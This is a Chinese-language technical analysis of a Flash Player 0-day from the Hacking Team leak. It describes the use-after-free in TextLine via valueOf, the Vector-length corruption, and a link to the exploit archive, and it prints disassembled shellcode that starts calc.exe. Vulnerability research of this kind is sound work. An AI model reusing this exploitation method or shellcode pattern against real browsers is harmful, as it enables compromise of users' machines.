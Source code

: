 # Hacking Team 新 Flash 0day分析

0x00 背景
=====

继前几天从Hacking Team中找到一个flash 0day，Adobe发布修复补丁之后，又被人在邮件中找到了一个flash 0day。

readme中描述，影响范围为`Adobe Flash Player 9+ 32/64-bit (since Jun 2006)`。

Windows中的IE，OS X中的firefox均可直接执行计算器。

0x01 漏洞分析
=====

漏洞文件[http://krash.in/flashnew0day.zip](http://krash.in/flashnew0day.zip)，是从Hacking Team邮件中找到Flash 0day，简单看一下该漏洞的利用方法。

点击Run Calc之后，该程序会调用Check64()函数，这个函数是该漏洞的一个简化版，程序用32、64不同的内存结构判断当前是32位进程还是64位。程序在最开始重载了`MyClass`的`valueOf`

![enter image description here](http://drops.javaweb.org/uploads/images/ef7745e091e8052b9d4bbbb27532f7f085bfc734.jpg)

而`opeaqueBackground`属性接受数值型，故如果传入一个类，会显示调用该类的`valueOf`一次，这个也是之前的一个UAF用的一个技巧。所以，在第一次走到下列语句设置`opaqueBackground`的时候走到了`valueOf1`：

![enter image description here](http://drops.javaweb.org/uploads/images/70bf44917bd6af27ce662ed7020dc53a04e80153.jpg)

在`valueOf1`中，攻击者使用`recreateTextLine`重用`_tl`这个`textLine`，随之，原始`TextBlock（_tb）`中的内部`TextLine`对象被释放。

![enter image description here](http://drops.javaweb.org/uploads/images/5998ced2ac2a23a36ca73878a52e212946fc4b17.jpg)

----->

![enter image description here](http://drops.javaweb.org/uploads/images/eda741f1e4e0758964610c13ed5af28be59e4df7.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/0f49856348def703ec41f5d4523b33901295c780.jpg)

然后，在valueOf中使用

![enter image description here](http://drops.javaweb.org/uploads/images/c8c6a3428463e49487baffc3a79e938be80a3e2a.jpg)

占住这片被释放的内存，1016是`TextLine`对象在内存中的大小，1344相当于多分配了一块内存（1016/4-8）。函数`return 1`，写入到这片内存中。

`valueOf`返回后，程序搜索`_ar`，找到值为1的一项，根据该项的位置判断是32还是64位系统：

![enter image description here](http://drops.javaweb.org/uploads/images/ddc91dba6803135925d1a3ff41f83aefa6ef6c19.jpg)

随后，程序调用`TryExpl()`，这里使用了类似的方式：

先分配特殊长度的Vector和TextLine留待后用，接着将`MyClass`的`valueOf`也设置为`valueOf2`：

![enter image description here](http://drops.javaweb.org/uploads/images/75715bc2b1a79e58e0edc6327279d0c062a76c30.jpg)

然后设置`opaqueBackground`属性，`_mc`是`MyClass`的实例，因此触发`valueOf2`：

![enter image description here](http://drops.javaweb.org/uploads/images/6e9760f3ad30cd8d8800882bac95609baffd2782.jpg)

在`valueOf2`中使用和之前一样的方式给`_ar`的所有元素全部做一次内存破坏，`vLen`的值是98。

![enter image description here](http://drops.javaweb.org/uploads/images/0a964fb6c1492f9b39dfb78cff1a1ebe8e218079.jpg)

返回后，程序在`_ar`中搜索被破坏的块，并设置下一个`Vector`的`Length`为`0x40000000`，后续就是经典的`Vector`操作了。

![enter image description here](http://drops.javaweb.org/uploads/images/54db7755e88469917c6510ba44a439859040c4e8.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/a05dc9cc16b43119b8a0c75e760b136e06ea1533.jpg)

在`IE11+Flash Player 17`中，跟踪可发现`length`被覆盖后的`Vector`：

![enter image description here](http://drops.javaweb.org/uploads/images/a9e2f6b2a760860eeb393d482847ec38f1ad1720.jpg)

0x02 使用的shellcode
=====

和之前一样，使用`CreateProcessA`调用calc

```
0:008> uf 0x603b1b8
Flow analysis was incomplete, some code may be missing
0603b1b8 55              push    ebp
0603b1b9 8bec            mov     ebp,esp
0603b1bb 83c4ac          add     esp,0FFFFFFACh
0603b1be 53              push    ebx
0603b1bf 51              push    ecx
0603b1c0 57              push    edi
0603b1c1 648b0530000000  mov     eax,dword ptr fs:[30h]
0603b1c8 8b400c          mov     eax,dword ptr [eax+0Ch]
0603b1cb 8b400c          mov     eax,dword ptr [eax+0Ch]
0603b1ce 8b00            mov     eax,dword ptr [eax]
0603b1d0 8b00            mov     eax,dword ptr [eax]
0603b1d2 8b5818          mov     ebx,dword ptr [eax+18h]
0603b1d5 89d8            mov     eax,ebx
0603b1d7 03403c          add     eax,dword ptr [eax+3Ch]
0603b1da 8b5078          mov     edx,dword ptr [eax+78h]
0603b1dd 01da            add     edx,ebx
0603b1df 8b7a20          mov     edi,dword ptr [edx+20h]
0603b1e2 01df            add     edi,ebx
0603b1e4 31c9            xor     ecx,ecx

0603b1e6 8b07            mov     eax,dword ptr [edi]
0603b1e8 01d8            add     eax,ebx
0603b1ea 813843726561    cmp     dword ptr [eax],61657243h ; Crea
0603b1f0 751c            jne     0603b20e

0603b1f2 81780b73734100  cmp     dword ptr [eax+0Bh],offset IEXPLORE!api-ms-win-downlevel-shell32-l1-1-0_NULL_THUNK_DATA_DLA <PERF> (IEXPLORE+0x37373) (00417373) ;ssA   (=>CreateProcessA)
0603b1f9 7513            jne     0603b20e

0603b1fb 8b4224          mov     eax,dword ptr [edx+24h]
0603b1fe 01d8            add     eax,ebx
0603b200 0fb70448        movzx   eax,word ptr [eax+ecx*2]
0603b204 8b521c          mov     edx,dword ptr [edx+1Ch]
0603b207 01da            add     edx,ebx
0603b209 031c82          add     ebx,dword ptr [edx+eax*4]
0603b20c eb09            jmp     0603b217

0603b20e 83c704          add     edi,4
0603b211 41              inc     ecx
0603b212 3b4a18          cmp     ecx,dword ptr [edx+18h]
0603b215 7ccf            jl      0603b1e6

0603b217 8d45f0          lea     eax,[ebp-10h]
0603b21a 50              push    eax
0603b21b 8d7dac          lea     edi,[ebp-54h]
0603b21e 57              push    edi
0603b21f 31c0            xor     eax,eax
0603b221 b911000000      mov     ecx,11h
0603b226 f3ab            rep stos dword ptr es:[edi]
0603b228 c745ac44000000  mov     dword ptr [ebp-54h],44h
0603b22f 50              push    eax
0603b230 50              push    eax
0603b231 50              push    eax
0603b232 50              push    eax
0603b233 50              push    eax
0603b234 50              push    eax
0603b235 e809000000      call    0603b243
0603b23a 63616c          arpl    word ptr [ecx+6Ch],sp
0603b23d 632e            arpl    word ptr [esi],bp
0603b23f 657865          js      0603b2a7

0603b242 0050ff          add     byte ptr [eax-1],dl
0603b245 d35f59          rcr     dword ptr [edi+59h],cl
0603b248 5b              pop     ebx
0603b249 c1e003          shl     eax,3
0603b24c 83c006          add     eax,6
0603b24f c9              leave
0603b250 c3              ret

```

![enter image description here](http://drops.javaweb.org/uploads/images/51f59d5c81d358dffc2f0916cafcaad29b0c1eb5.jpg)

0x03 效果
=====

![enter image description here](http://drops.javaweb.org/uploads/images/e58cd8b101dd420bfa12cf68f0d00c681aa746ce.jpg)

在IE11中成功地启动了`calc.exe`

桌面截图：

![enter image description here](http://drops.javaweb.org/uploads/images/80e4d445695fe403bb3bfbf7bb8eaf9a71b0d4b1.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/f67f5cc85aa1fe91b882685ebd1bac51dcef7db6.jpg)